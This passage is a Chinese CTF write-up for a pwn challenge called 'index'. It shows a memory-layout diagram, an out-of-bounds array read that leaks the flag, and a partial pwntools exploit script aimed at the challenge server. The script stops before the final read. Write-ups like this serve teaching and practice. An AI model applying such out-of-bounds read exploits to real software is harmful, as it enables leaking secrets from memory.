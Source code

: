 #### 内存布局 + 越界索引示意图

```mermaid
graph LR
    subgraph Memory
        N0["nums[0]"] --> N1["nums[1]"]
        N1 --> N2["nums[2]"]
        N2 --> N3["nums[3]"]
        N3 --> N4["nums[4]"]
        N4 --> N5["nums[5]"]
        N5 --> N6["nums[6]"]
        N6 --> N7["nums[7]"]
        N7 --> N8["nums[8]"] --> F["flag (flag.txt 内容)"]
    end

    N8 -.-> |越界读取| D

```
#### 攻击思路

1. 发送 `1337`，触发 flag 加载到内存。
    
2. 计算 `idx = (flag_addr - nums_addr) // 8`。
    
3. 选择 `read_data()`，输入 idx 越界读取 flag。

exp  
```python
#!/usr/bin/env python3
from pwn import *

context.log_level = 'info'

# --------------------------
# 配置
# --------------------------
BIN = "./index"      # 本地 binary
HOST = "play.scriptsorcerers.xyz"
PORT = 10108

p = remote(HOST, PORT)
elf = ELF(BIN)

# --------------------------
# 获取内存地址
# --------------------------
nums_addr = elf.symbols['nums']    # nums 数组基址
flag_addr = elf.symbols['flag']    # flag 存储地址

log.info(f"nums base: {hex(nums_addr)}")
log.info(f"flag addr: {hex(flag_addr)}")

# --------------------------
# 计算越界索引
# --------------------------
idx = (flag_addr - nums_addr) // 8
log.info(f"越界索引 idx = {idx}")

# --------------------------
# 触发 flag 加载
# --------------------------
p.recvuntil(b"4. Exit\n")
p.sendline(b"1337")  # 特殊输入让程序把 flag 读取到内存

# --------------------------
# 通过 read_data 越界读取 flag
```